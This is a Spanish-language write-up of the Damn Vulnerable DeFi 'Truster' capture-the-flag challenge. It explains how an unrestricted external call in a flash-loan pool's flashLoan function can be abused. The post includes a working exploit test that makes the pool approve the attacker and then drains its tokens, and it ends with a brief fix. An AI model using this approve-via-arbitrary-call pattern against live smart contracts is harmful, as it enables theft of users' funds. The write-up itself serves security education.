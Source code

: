 ```yaml
---
title: Solucion al challenge .#3 Truster
date: 2022-01-4
excerpt: Cada dia mas lendings pools ofrecen flash loans. En este caso se ha lanzado un pool que ofrece flash loans de tokens DVT gratis. Actualmente el pool tiene un millon de tokens DVT. Tu no tienes nada. Pero no te preocupes, quizas puedas tener todo el balance del pool... en una sola transaccion
---
```


Cada dia mas lendings pools ofrecen flash loans. En este caso se ha lanzado un pool que ofrece flash loans de tokens DVT gratis.

Actualmente el pool tiene un millon de tokens DVT. Tu no tienes nada :(

Pero no te preocupes, quizas puedas tener todo el balance del pool... en una sola transaccion


## Como funciona?

El contrato [TrusterLenderPool.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/truster/TrusterLenderPool.sol) tiene una 
funcion `flashLoan(uint256 borrowAmount,address borrower,address target,bytes calldata data)` que se utiliza para realizar el flash loan, `borrowAmount` es cuanto pedis prestado
`borrower` es quien recibe el prestamo, `target` es el contrato y en `data` se pasa la funcion y los argumentos para que se ejecute en target.

Fragmento de TrusterLenderPool.sol
```js
    using Address for address;

    function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    )
        external
        nonReentrant
    {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
        
        damnValuableToken.transfer(borrower, borrowAmount);
        target.functionCall(data);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
```

`functionCall` es una librerira provista por OpenZeppelin, se declara en `using Address for address;`, luego se utiliza en `target.functionCall(data);`.

El problema radica en que se hace una llamada externa a un contrato que puede ser malicioso y con una ejecucion de funciones y parametros arbitrarios.

Esto no es la primera vez que pasa, este fue un [caso real en zapper](https://medium.com/immunefi/zapper-arbitrary-call-data-bug-fix-postmortem-d75a4a076ae9)


## El exploit

Bastante simple, solo hay que hacer que el contrato apruebe al atacante para hacer uso de sus tokens.

```js
    it('Exploit', async function () {
        const encodedData = this.token.interface.encodeFunctionData('approve', [attacker.address, TOKENS_IN_POOL])  
        await this.pool.connect(attacker).flashLoan(0, this.pool.address, this.token.address, encodedData);
        await this.token.connect(attacker).transferFrom(this.pool.address, attacker.address, TOKENS_IN_POOL);
    });
```

Con esto hacemos que el contrato haga una llamada a `token.approve(atacante, cantidadDeToknes);`, una vez que podemos hacer uso de los tokes del contrato los trasnferimos a nuestra cuenta y drop the mic.


## Como solucionarlo?

Bastaria con evitar que el usuario haga una llamada arbitraria.


